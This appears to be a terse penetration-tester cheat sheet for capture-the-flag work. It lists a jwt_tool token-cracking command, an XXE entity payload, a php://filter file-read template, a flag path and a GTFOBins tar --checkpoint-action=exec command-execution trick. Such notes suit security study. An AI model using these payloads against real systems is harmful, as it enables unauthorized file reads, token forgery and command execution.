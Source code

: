 # pen-tester handbook
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "command">
]>
<foo> &xxe; </foo>



# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag



github tar command Bind shell (gtfobins)
# tar vulnerebility
# cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=
